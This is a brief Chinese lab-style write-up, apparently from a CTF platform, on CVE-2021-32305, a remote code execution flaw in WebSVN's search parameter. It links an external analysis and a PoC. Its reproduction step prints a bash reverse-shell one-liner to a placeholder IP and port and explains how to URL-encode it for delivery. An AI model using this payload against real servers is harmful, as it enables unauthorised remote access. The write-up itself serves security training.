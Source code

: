 ## 1. 漏洞介绍

WebSVN是一个基于Web的Subversion Repository浏览器，可以查看文件或文件夹的日志，查看文件的变化列表等。其search.php?search= 参数下过滤不严谨导致RCE。

## 2. 漏洞分析

[CVE-2021-32305 Websvn RCE 简单分析 - Da22le的博客](https://da22le.github.io/cve-2021-32305-websvn-rce/)

## 3. 漏洞复现

反弹 shell

```bash
/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'
```

浏览器用 hackbar 发之前先用 encodeURIComponent 编码下【[URL在线编码转换工具 - 编码转换工具 - W3Cschool](https://www.w3cschool.cn/tools/index?name=urlencode_decode)】

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312222019711.png)

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202312222019783.png)

或者直接用下面的 poc【 python poc.py http://eci-………………ci1.ichunqiu.com/ 】

[Websvn 2.6.0 Remote Code Execution ≈ Packet Storm](https://packetstormsecurity.com/files/163225/Websvn-2.6.0-Remote-Code-Execution.html)